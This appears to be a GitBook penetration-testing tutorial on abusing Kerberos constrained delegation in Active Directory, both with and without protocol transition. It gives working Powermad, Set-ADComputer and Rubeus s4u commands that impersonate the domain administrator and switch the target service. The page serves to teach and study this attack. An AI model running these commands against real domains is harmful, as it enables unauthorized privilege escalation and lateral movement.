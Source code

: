 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Constrained

{% hint style="info" %}
All information found below has been adapted from [Attl4s](https://attl4s.github.io/) [video-presentation](https://www.youtube.com/watch?v=gzqq2r6cZjc) and its corresponding [slide deck](https://attl4s.github.io/assets/pdf/You_do_\(not\)_Understand_Kerberos_Delegation.pdf).
{% endhint %}

## Theory

Constrained delegation does not leverage TGTs, and thus, cannot impersonate a user freely on any service (`msds-allowedtodelegateto`). Instead, it uses the `S4U2Self` and `S4U2Proxy` Keberos extensions:

1. **S4U2Proxy**: allows a service to obtain a ST on behalf of a client to another service. The initial client ST is required as evidence that the client has authenticated.
2. **S4U2Self**: allows a service to obtain a ST to itself as evidence that a client has authenticated. Any services (SPN account) can invoke S4U2Self.

## Without Protocol Transition (Kerberos Only)

<figure><img src="../../../../.gitbook/assets/cd_wireshark.png" alt=""><figcaption><p>Figure 1: CD with PT process (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>)</em>.</p></figcaption></figure>

### Exploitation

This process requires only a ST (evidence/additional) as a requirement to invoke it.

We need an account with at least one SPN (Figure 2.1).

```powershell
RBCD ?
# create a machine account (powermad)
New-MachineAccount -MachineAccount attl4s
```

We can impersonate `web01` through its credentials (Figure 2.2).

```powershell
# generate a TGT for web01
.\Rubeus.exe asktgt /user:web01$ /rc4:<hash> /domain:capsule.corp /nowrap /ptt
```

<figure><img src="../../../../.gitbook/assets/cd_exploit_1.png" alt=""><figcaption><p>Figure 2: Creating a SPN account and impersonating <code>web01</code> (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Any SPN account can configure RBCD for itself. So we will make `web01` to trust `attl4s`, so the latter can impersonate any user to the former (Figure 3).

{% code overflow="wrap" %}
```powershell
Import-Module .\Microsoft.ActiveDirectory.Management.dll
# set the RBCD bit
Set-ADComputer -Identity web01$ -PrincipalsAllowedToDelegateToAccount attl4s$ -Verbose
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/cd_exploit_2.png" alt=""><figcaption><p>Figure 3: Setting the RBCD bit (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Now, we can use `attl4s` machine to obtain a ST for `web01`, impersonating the `administrator` (`S4U2Self` & `S4U2Proxy`) (Figure 4).

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe s4u /impesonateuser:administrator /user:attl4s /rc4:<hash> /msdsspn:cifs/web01.capsule.corp /nowrap
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/cd_exploit_3.png" alt=""><figcaption><p>Figure 4: Going through the S4U process (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Since the second ST ticket is `forwardable`, it can be used on Kerberos for authenticating as `administrator` (TGT).

## With Protocol Transition

* PT means "_I don't care how the client authenticates_". It just needs the client's name.&#x20;
* The difference vs. [Without Protocol Transition (Kerberos Only)](constrained.md#without-protocol-transition-kerberos-only) is that the `S4U2Proxy` cannot be invoked as we don't have a ST for the user (since NTLM authentication was used) (Figure 5.1).
* The difference with [RBCD](resource-based.md) is that the KDC checks the `TRUST_TO_AUTH_FOR_DELEGATION` UAC[^1] setting and sees that `web01` is trusted, so it issues a `forwardable` ST to it (Figure 5.2), therefore, the `S4U2Proxy` can now be invoked.

<figure><img src="../../../../.gitbook/assets/cd_withPT_diffs.png" alt=""><figcaption><p>Figure 5: Constrained Delegation with protocol transition process (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

### Exploitation

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe s4u /impersonateuser:administrator /user:web01$ /rc4:<hash> /msdsspn:cifs/sql01.capsule.corp /altservice:http/sql01.capsule.corp /nowrap
```
{% endcode %}

If we compromise a service configured for CD with PT (`web01`), then we can generate a ST for any user we want (`administrator`) with `S4U2Self` pointing to `web01` (Figure 6).

<figure><img src="../../../../.gitbook/assets/cd_pt_exploit_1.png" alt=""><figcaption><p>Figure 6: Getting a <code>forwardable</code> ST as administrator with the <code>S4U2Self</code> for <code>web01</code> (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

The ST generated from `S4U2Self` will be `forwardable`, and thus can be used with `S4U2Proxy` to generate a second ST for the targeted service (`cifs`) as the impersonated user (`administrator`) (Figure 7).&#x20;

<figure><img src="../../../../.gitbook/assets/cd_pt_exploit_2.png" alt=""><figcaption><p>Figure 7: Generating the second ST with <code>S4U2Proxy</code> for the targeted service as administrator (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Althought, the SPN account will have specific service(s) in the `msDS-AllowedToDelegateTo` attribute (`cifs`) (Figure 8), this can modified to target other services from the same service account (`http`) (Figure 6 & 7).

<figure><img src="../../../../.gitbook/assets/cd_pt_services.png" alt=""><figcaption><p>Figure 8: The <code>msds-allowedtodelegateto</code> attribute of <code>WEB01</code> (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

## Resources

*

[^1]: User Account Control
